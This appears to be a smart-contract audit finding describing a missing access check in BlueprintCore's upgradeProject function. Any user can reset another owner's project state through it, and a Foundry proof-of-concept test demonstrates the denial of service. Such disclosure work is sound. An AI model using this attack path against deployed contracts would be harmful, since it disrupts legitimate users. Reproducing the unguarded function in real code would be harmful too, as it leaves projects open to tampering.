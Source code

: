 Stale Admiral Beaver

Medium

# Any user can reset project state and disrupt operations for legitimate project owners

### Summary

The `upgradeProject` function in the BlueprintCore contract lacks proper access control, allowing any user to reset the state of any project, regardless of ownership. This vulnerability enables malicious actors to disrupt legitimate projects by resetting their proposal and deployment information, causing denial of service for both project owners and workers who can no longer interact with their deployments.


### Root Cause

In [src/BlueprintCore.sol#L198-L203](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L198-L203), the `upgradeProject` function only checks if the project exists but does not verify that the caller is the project owner:

```solidity
function upgradeProject(bytes32 projectId) public hasProject(projectId) {
    // reset project info
    projects[projectId].requestProposalID = 0;
    projects[projectId].requestDeploymentID = 0;
    projects[projectId].proposedSolverAddr = dummyAddress;
}
```

The function uses the `hasProject` modifier, which only verifies the project's existence:

```solidity
modifier hasProject(bytes32 projectId) {
    // projectId backwards compatibility
    //    projects[projectId].id != 0 --> false --> new project id created by new blueprint not exist
    //    projectIDs[projectId] != address(0) -- > false -- >. old project id created by old blueprint not exist.
    //    both 1 and 2 are false, then project id does not exist in old and new blueprint
    // slither-disable-next-line timestamp
    require(projects[projectId].id != 0 || projectIDs[projectId] != dummyAddress, "projectId does not exist");
    _;
}
```

Unlike other functions that operate on projects, there is no check to ensure that `msg.sender` is the project creator or has any authorization to modify the project.

### Internal Pre-conditions

1. A legitimate project must exist in the system
2. The project must have active proposal or deployment information

### External Pre-conditions

None - this vulnerability doesn't depend on external protocols or conditions

### Attack Path

1. Attacker identifies a target project ID (can be obtained from blockchain events)
2. Attacker calls `upgradeProject(targetProjectId)`
3. The contract resets the project's state:
   - `requestProposalID` is set to 0
   - `requestDeploymentID` is set to 0
   - `proposedSolverAddr` is set to the dummy address
4. The project's proposal and deployment information is now reset, disrupting any ongoing processes
5. Project owner and workers can no longer interact with the deployment as their operations will fail

### Impact

The vulnerability has several significant impacts:

**1. Operational Disruption:**
- Legitimate users lose their project's proposal and deployment information
- Ongoing deployments are disrupted as the link between project and deployment is broken
- Users may need to restart their project setup process from the beginning

**2. Denial of Service:**
- Attackers can repeatedly reset projects to prevent users from completing deployments
- This creates a persistent denial of service condition that cannot be mitigated without contract changes
- Project owners can no longer update deployment configurations after a reset
- Workers can no longer submit proof of deployment after a reset

**3. Worker Impact:**
- Workers may lose track of which deployments belong to which projects
- Resources spent on partially completed deployments are wasted
- Workers receive errors when trying to interact with reset deployments

**4. User Experience:**
- Users experience unexpected project resets
- Trust in the platform is diminished due to unpredictable behavior
- Users may need to recreate proposals and deployment requests

While no direct financial loss occurs (unlike the signature replay vulnerability), this issue represents a significant operational vulnerability that undermines the reliability and usability of the platform.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {Test, console} from "forge-std/Test.sol";
import {Vm} from "forge-std/Vm.sol";
import {BlueprintV5} from "../src/BlueprintV5.sol";
import {BlueprintCore} from "../src/BlueprintCore.sol";

contract UpgradeProjectVulnerabilityTest is Test {
    BlueprintV5 public blueprint;
    
    // Test users
    address public projectOwner = address(0x1);
    address public attacker = address(0x2);
    address public worker = address(0x3);
    
    function setUp() public {
        // Create and initialize the blueprint contract
        blueprint = new BlueprintV5();
        blueprint.initialize();
        
        // Fund users with ETH for gas
        vm.deal(projectOwner, 10 ether);
        vm.deal(attacker, 10 ether);
        vm.deal(worker, 10 ether);
    }
    
    function test_upgradeProjectDoSImpact() public {
        // Use a different project ID for this test
        bytes32 projectId = keccak256(abi.encodePacked("test_project_2"));
        bytes32 deploymentRequestId;
        
        // 1. Project owner creates a project and deployment
        vm.startPrank(projectOwner);
        deploymentRequestId = blueprint.createProjectIDAndDeploymentRequest(
            projectId,
            "base64Proposal",
            "server.url"
        );
        vm.stopPrank();
        
        // 2. Worker accepts the deployment
        vm.startPrank(worker);
        bool accepted = blueprint.submitDeploymentRequest(projectId, deploymentRequestId);
        assertTrue(accepted, "Worker should be able to accept deployment");
        vm.stopPrank();
        
        // 3. Verify worker can update deployment status
        vm.startPrank(worker);
        // Try to submit proof of deployment (should work before attack)
        blueprint.submitProofOfDeployment(
            projectId,
            deploymentRequestId,
            "proof_data"
        );
        vm.stopPrank();
        
        // 4. Attacker resets the project
        vm.startPrank(attacker);
        blueprint.upgradeProject(projectId);
        vm.stopPrank();
        
        // 5. Project owner tries to update the deployment configuration
        vm.startPrank(projectOwner);
        try blueprint.updateWorkerDeploymentConfig(
            address(0x1234), // Some token address
            projectId,
            deploymentRequestId,
            "updated_config"
        ) {
            // If this succeeds, the test should fail
            assertTrue(false, "Should not be able to update deployment after project reset");
        } catch Error(string memory reason) {
            // This should fail with a specific error
            console.log("Error when updating deployment after reset: ", reason);
            // The exact error message might vary, but we expect some error
        }
        vm.stopPrank();
        
        // 6. Worker tries to submit another proof of deployment
        vm.startPrank(worker);
        try blueprint.submitProofOfDeployment(
            projectId,
            deploymentRequestId,
            "updated_proof_data"
        ) {
            // If this succeeds, the test should fail
            assertTrue(false, "Should not be able to submit another proof after project reset");
        } catch Error(string memory reason) {
            // This should fail with a specific error
            console.log("Error when submitting proof after reset: ", reason);
            // The exact error message might vary, but we expect some error
        }
        vm.stopPrank();
    }
}
```


### Mitigation

_No response_